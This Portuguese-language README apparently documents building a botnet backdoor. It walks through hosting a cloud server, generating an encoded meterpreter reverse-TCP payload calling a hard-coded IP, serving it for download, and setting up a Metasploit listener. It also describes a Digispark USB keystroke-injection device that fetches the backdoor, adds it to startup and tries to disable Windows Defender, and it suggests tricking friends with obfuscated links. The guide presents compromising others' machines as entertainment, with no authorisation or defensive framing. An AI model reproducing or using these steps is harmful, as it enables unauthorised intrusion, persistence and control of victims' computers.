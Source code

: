 **Criar uma INSTANCIA e definir um IP estatico**
 Eu estarei utilizando o GCP(Google cloud platform) mas você pode utilizar o provedor de CLOUD que deseja ou até mesmo um VPS.

Acesso meu console e crio a instancia. Estancia essa que é bem basica uma micro com SO Debian 9

Com o a instancia criada, eu defino um IP estatico para minha instancia. Um IP estatico é necessario para que não ocorra o risco do IP mudar e perdemos nossos "computadores zumbis" já conquistados.


**Instalar METASPLOIT e NGINX**
 Nesse passo vamos instalar nosso canivete suiço METASPLOIT para criamos nosso BACKDOOR e orquestramos nossos "computadores zumbis" o nginx vai ser necessario para que o nosso payload do Digispark possa fazer o download do BACKDOOR para dentro da maquina alvo.

   Conecte a sua instancia por ssh para instalarmos o METASPLOIT e o NGINX para isso rode 

 ```shell
 ssh usuario@instancia 
```

  apos se conectar rode instale o nginx ou apache como preferir
 ```shell
 sudo apt-get install -y nginx
```
  agora os comandos abaixo é para instalar o METASPLOIT

 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```

conceder permisão de execução para o instalador

 ```shell
 chmod +x msfinstall
```

agora execulte o mesmo

 ```shell
 ./msfinstall
```

E feito isso e não deu nenhum error é so verificar se ta tudo certo.
Como vai ser a primeira execução ele vai perguntar se você deseja criar um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta

 ```shell
 msfconsole --version
```


**Criar BACKDOOR REVERSE**

Agora vamos criar o backdoor definindo qual tipo de conexão iremos usar que vai ser uma REVERSA TCP para qual tipo de SO, qual vai ser o nosso LHOST(IP de comunicação) nossa LPORT(porta de comunicação) o tipo da extenção do backdoor -f exe o algoritmo de criptografia e compreensão, -i o numero de interações do encoded com o backdoor, -o o nosso arquivo de saida.  se você estive e uma cloud provavelmente vai ter que criar uma regra de firewall para a sua porta escolhida

 ```shell
        $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls verá que o arquivo payload.exe foi criado

** Configurar NGINX para download do backdoor**

Vamos criar uma copia dele dentro da nossa pasta do servidor 

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponivel para download em 

        http://34.97.212.80/payload.exe


**Digispark**

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de varias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas. 

Mas aqui vou abordar um ataque de infecção fisica, onde iremos ter acesso fisico a uma maquina e com a posse de um Digispark iremos infectar uma maquina. 

Para quem não conhece o Digispark, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador. 

Que chega ser um GENERICO ao Rubber duck(dispositivo esse usado na serie Mr. Robot) e pode ser programada com a IDE do Arduino. com isso configuraremos o Digispark para reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permisão do usuario da maquina e iremos executar comandos de teclado para fazer o download do backdoor e execultar ele na maquina e adicionar ele junto a inicialização do Windows, para que quando a maquinar for reiniciar obtermos uma nova conexão com a mesma. 

Agora bora lá, para isso você vai precisar de um[ Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16") . Com ele em mãos agora você vai precisar carregar nele os modulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos d[este tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui

Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev ]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")

**Criar Payload para injectar o BACKDOOR**

Feito tudo isso e com o ARDUINO IDE instalado vamos criar o nosso Payload que ao pluggarmos em uma maquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e  execultar nosso backdoor, tudo isso em questão de segundos hahahahaha

Abra o Arduino IDE e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado e colado e entendido o que o payload faz, você pluga o digispark na porta USB da sua maquina e clicamos em verificar primeiro e depois em carregar e aguarde a IDE solicitar que você pluge o dispositivo.

 E SUCESSO! Diggispark RUBBE DUCK esta criado. Agora basta plugar o digispark em qualquer maquina windows aguardar 4 segundos e remove-lo, tudo muito rapido. 


** INICIAR ESCULTA DAS CONEXOES DO BACKDOOR**

Agora voltamos para a nossa instancia para iniciarmos a esculta do backdoor na nossa porta em acesso SSH a nossa instancia iniciamos o console do Metasploit executado

```shell
msfconsole
```
depois de iniciado

```shell
    msf > use exploit/multi/handler
    msf >set PAYLOAD windows/meterpreter/reverse_tcp
    msf >set LHOST 34.97.212.80
    msf >set LPORT 5000
    msf >set ExitOnSession false
    msf > exploit -j -z
```
  em seguida  para listar nossas conexões de entrada até o momento 

```shell
msf> sessions -l 
```
e para acessar um "zumbir
```shell
msf> sessions -i <numero da sessão> 
```

**Obter acesso a uma maquina infectada**

Agora basta enviar o link para alguem ou plugar o digispark em alguma maquina e se divertir hahaha
